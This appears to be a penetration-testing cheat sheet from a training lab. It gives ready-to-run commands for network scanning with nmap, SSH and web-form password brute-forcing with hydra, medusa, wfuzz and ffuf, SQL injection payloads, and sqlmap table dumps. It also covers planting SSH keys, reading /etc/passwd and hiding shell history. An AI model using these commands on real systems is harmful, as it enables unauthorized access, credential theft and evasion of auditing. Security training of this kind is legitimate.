 # Tools in detail

## nmap

- all in one
	- `nmap 10.0.33.0/24 -T5 -p- -sS -sV -O -Pn`
- scanning multiple IP blocks
	- `nmap 10.0.33.0/24 10.0.66.0/24 -T5`
- scanning running software and version numbers
	- `nmap 10.0.33.0/24 -p- -sV -sS -Pn`
- scanning OS on host
	- `nmap 10.0.33.0/24 -p- -O`
- resolve hostnames
	- `host 10.0.33.50`
- HTTPS certificate info
	- `nmap -sC -A web.org2`
- discover publicly accessible directories at web servers
	- `nmap --script=http-enum web.org1 web.org2`
	- `dirb https://web.org2`
- main arguments
	- `10.0.33.0/24` target subnet to scan
	- `-T` is the timing speed of the scan
	- `-p-` scan all ports
	- `-sS` include TCP SYN scan
	- `-sV` application version scan
	- `-O` OS detection
	- `-Pn` skip ping test and just discover every target host provided (not neccessary after discovering the hosts for the first time)
	- `--script=vuln` scan for vulnerabilities
- other arguments
	- `-sU` include UDP scan (don't use - extremely slow)
	- `-A` enable OS detection, script scannning, traceroute
	- `-sC` default scripts scan (intrusive!)
	- `--script ssl-cert` specific script scan
	- `-F` scan only the 100 most common ports in each protocol
	- `-oG output.txt` grepable output to file
	- `-v`, `-vv` increase verbosity and print out more info

## linpeas

- shows potential vulnerabilities on host

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```

## dirb

- scan web content

```sh
dirb https://web.org2
```

## Metasploit
- run console
	- `msfconsole`
- arguments
	- `?`, `help`
	- `search`
	- `info`
	- `use`
	- `set RHOST 10.0.33.100`
	- `run`
	- `show options`
	- `exploit -j` for creating session
- install metasploit on jumphost

```sh
sudo apt install -y gpg && \
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

## medusa

```sh
medusa -t 4 -b -h <HOST> -u <USERNAME> -P <WORDLIST> -M ssh
```

## hydra

- wordlist guessing
```sh
hydra -l <USERNAME> -P <WORDLIST> ssh:<HOST>
```

- web forms guessing
```sh
hydra -l admin -P wordlist.txt 'http-get-form://10.0.0.10:80/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect'
```

- brute forcing an access key
```sh
hydra -t 1 -f -l something -P wordlist.txt "http-post-form://10.0.44.55:80/customers/restricted_access.php:access_key=^PASS^:H=Cookie: PHPSESSID=$PHPSESSID:F=Access Denied"
```

## john 

```sh
john --format=<FORMAT> <PASSWORD-HASHES>
```

### wfuzz

```sh
wfuzz -z file,wordlist.txt 'http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
```
- filter out incorrect responses
	- `--hs 'Username and/or password incorrect'` 
- filter out successful responses
	- `--ss "Welcome to the password protected area"`

### ffuf

```sh
ffuf -w wordlist.txt -u 'http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login' -fr 'Username and/or password incorrect'
```
- arguments
	- `-fr` excludes the responses matching the regex
	- `-mr` for successful message

## SQL injection

- get all (applicable when there is a WHERE clause)
```txt
' OR 1=1 #
```
- return other data
```txt
UNION SELECT user, password FROM users #
```

## sqlmap

- check if target is vulnerable
```sh
sqlmap -u 'http://10.0.0.10:80/vulnerabilities/sqli/?id=1&Submit=Submit'
```

- list all tables in db
```sh
sqlmap -u 'http://10.0.44.55/customers/home.php?user=1' --cookie="PHPSESSID=$PHPSESSID" --batch -D sqlitraining --tables
```

- dump all data from table
```sh
sqlmap -u 'http://10.0.44.55/customers/home.php?user=1' --cookie="PHPSESSID=$PHPSESSID" --batch -D sqlitraining -T users --dump
```

- run SQL command
```sh
sqlmap -u 'http://10.0.44.55/customers/home.php?user=1' --cookie="PHPSESSID=$PHPSESSID" --batch --sql-query 'VERSION()'
```

## lynx

- allows you to view HTML in terminal as text
```sh
curl $URL | lynx -nolist -dump -stdin
```

## ssh keys

- generate new ssh key pair
```sh
ssh-keygen -t ed25519 -C "email@example.com"
```
- copy over to target host
```sh
~/.ssh/authorized_keys
```

## shell commands

- list all users on the host that have login shells
```sh
grep /bin/bash /etc/passwd
```

- ignore history
```sh
HISTCONTROL=ignorespace
```

- filter out strings by length
```sh
awk 'length($0) == 10' /usr/share/wordlists/sqlmap.txt > wordlist.txt
```

- compute hash of password
```sh
echo -n 'u7Lp#Kz9#Jh=82Qr' | md5sum
```

- cat multiline string to file
```sh
cat << 'EOF' > info.php
<?php phpinfo(); ?>
EOF
```

- download from google drive
```sh
curl -L "https://drive.usercontent.google.com/uc?id=1b4d0ES3GvMP1ksgxhLZACiu0WraybOd3&authuser=0&export=download" -o countdown.png
```

## python scripts

- generate wordlists

## curl

- `--cookie "key1=val1;key2=val2"` sets cookies
- `-H "Cookie: PHPSESSID=$PHPSESSID"` does the same